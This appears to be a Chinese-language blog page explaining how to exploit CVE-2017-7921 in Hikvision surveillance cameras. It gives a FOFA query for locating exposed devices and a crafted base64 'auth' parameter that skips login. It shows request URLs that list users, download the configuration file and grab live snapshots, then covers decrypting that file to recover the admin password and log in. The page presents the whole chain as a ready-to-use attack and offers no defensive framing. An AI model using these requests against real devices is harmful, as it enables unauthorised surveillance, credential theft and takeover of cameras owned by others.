 ```yaml
---
layout: about
category: about
Researchname: Hikvision-ConfigurationFiles-decrypter
author: Bin4xin
permalink: /about/Hikvision-ConfigurationFiles-decrypter/
---
```


# Hikvision ConfigurationFiles Unauth

> *fofa： app="HIKVISION-视频监控"*
>
> *HIKVISION*监控设备管理后台存在未授权，通过构造url可绕过登录查看监控，检索所有用户和配置文件下载。

构造url主要是通过如下的`auth`参数构造生成base64加密字段，如下所示：

```bash
➜  echo admin:11 |base64
YWRtaW46MTEK
```

<h2><li>检索所有用户及其角色的列表</li></h2>
`http://{ip.addr}:{ip.port}/Security/users?auth=YWRtaW46MTEK`

返回xml信息：

```xml
<UserList version="1.0">
<User version="1.0">
<id>1</id>
<userName>admin</userName>
<priority>high</priority>
<ipAddress>0.0.0.0</ipAddress>
<macAddress>00:00:00:00:00:00</macAddress>
<userLevel>Administrator</userLevel>
</User>
</UserList>
```

---

<h2><li>下载账号密码配置文件</li> </h2>


`http://{ip.addr}:{ip.port}/System/configurationFile?auth=YWRtaW46MTEK`

```bash
➜  file configurationFile
configurationFile: PGP Secret Key -
```

如上，我们配置文件下载完成后可以看到是PGP加密文件，所以我们需要对文件进行解密才可以找到账号密码的配置信息；文件解密出的账号密码就是监控设备后台管理的账号密码信息，我们得到信息直接登录即可。解密软件用法及链接如下：

### *# Usage:*

<div class="col-lg-7">
<img align="left" src="https://i.loli.net/2021/11/18/l5mtUa13gvqVHLF.png"/>
</div>

<div>

<h3> <em>Open [hikvision-decrypter.exe] on Windows platform:</em> </h3>

<li><code>Open Configuration File -> </code></li>

<li><code>Encrypted -> </code></li>

<li><code>Decrypt Data(Decrypting AES...) -> </code></li>

<li><code>(Successfully decrypted data) -> </code></li>

<li><code>Save Configuration File. </code></li>


</div>

### *# Find pass in decrypted data*

用 010-Editor程序打开decrypted data 文件. 文件内搜索admin字符串，如左图；

**Boom! Easy to find password! (admin:asdf1234)**

<span style="margin-left: 1em">* 我们通过[Usage]来获得的帐号密码登录即可，有机会会从代码角度分析一下为什么存在未授权访问</span>

### *#* 相关链接一览表

|Desc | Link |
| :----: | :----: |
---- | --- 
Download Hikvision exec |  [<i class="fa fa-link"></i> hikvision-decrypter.exe](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Hikvision%20Unauth/hikvision-decrypter.exe){:target="_blank"} and here is: [<i class="fa fa-github"></i> Repos](https://github.com/WormChickenWizard/hikvision-decrypter){:target="_blank"}
Download configurationFile Sample | [<i class="fa fa-link"></i> configurationFile](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Hikvision%20Unauth/configurationFile-fofa){:target="_blank"}
Download configurationFile decry-Sample	| [<i class="fa fa-link"></i> configurationFile-decry](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Hikvision%20Unauth/DE-configurationFile-fofa){:target="_blank"}

---

<h3><li>获取监控快照</li></h3>

`http://{ip.addr}:{ip.port}/onvif-http/snapshot?auth=YWRtaW46MTEK`

当前时间下监控的快照图片

![Hikvision-unauth-view.png](https://i.loli.net/2021/11/18/GPEeKkcqsAFRDYO.png)


## 参考

- [CVE-2017-7921海康威视摄像头管理后台未授权](https://www.freebuf.com/vuls/268245.html){:target="_blank"}
- [Hikvision Decrypter](https://github.com/WormChickenWizard/hikvision-decrypter){:target="_blank"}


以上。
